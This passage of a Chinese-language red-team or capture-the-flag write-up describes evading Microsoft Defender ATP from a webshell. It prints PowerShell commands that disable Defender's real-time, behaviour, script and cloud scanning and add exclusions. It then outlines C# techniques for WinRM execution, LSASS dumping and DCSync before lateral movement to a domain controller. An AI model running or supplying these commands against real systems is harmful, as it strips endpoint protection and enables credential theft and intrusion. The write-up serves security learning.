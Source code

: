 可以执行部分powershell命令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PLeCXQl8794MAKtoeuG5HUkZdibEKFibagCynrgDEDUNsLgG7bX2FNPHYdLsy1nrPiaO7ImbHFAYJY32MriauApQ4w/640?wx_fmt=png "")  
启动敏感进程依旧被拦截：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PLeCXQl8794MAKtoeuG5HUkZdibEKFibagOcCfBT56rp1cSxC8KrDr2G319dvpjlw9iaDtbiaF8wENgO8wUNZE8gUQ/640?wx_fmt=png "")  
# MORE  
  
通过c#调用powershell相关dll可以实现绕过ATP执行部分命令，但这样还不足够。我们可以使用powersell关闭definder的一些功能：  
```
# Disables realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true

# Disable behaviour monitoring
Set-MPPreference -DisableBehaviourMonitoring $true

# Make exclusion for a certain folder
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disables cloud detection
Set-MPPreference -DisableBlockAtFirstSeen $true

# Disables scanning of .pst and other email formats
Set-MPPreference -DisableEmailScanning $true

# Disables script scanning during malware scans
Set-MPPReference -DisableScriptScanning $true

# Exclude files by extension
Set-MpPreference -ExclusionExtension "ps1"

# Turn off everything and set exclusion to "C:\Windows\Temp"
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"

```  
  
对于ATP的绕过手段有很多种，笔者一般使用三种办法：  
- 使用c#调用winrm，实现winrm进程启动cmd.exe而不是w3wp进程启动cmd.exe。可以继承当前shell上下文的权限，但只能是管理员调用(域内机器)。适用于exch这种system启动的shell或有域身份的shell。winrm相关库：http://windowsbulletin.com/files/dll/dell-inc/dell-amt-vpro-plugin/interop-wsmanautomation-dll  
  
- c#调用powershell的反射类型，即上面提到的webshell：https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
https://www.linkedin.com/pulse/bypass-security-simple-trick-execute-csharp-dll-rundll32exe-brok  
  
- 使用c#实现接下来需要的完整功能，如导出ldap，dumplsass，甚至包括直接进行dcsync操作。在之前的文章《记一次团队内部的红蓝对抗-攻击篇 》中我们曾经使用c#导出过spn。  
  
经过一系列操作后，我们获取到了本地administrator用户的hash，横向移动后在dc获取到了flag。  
  
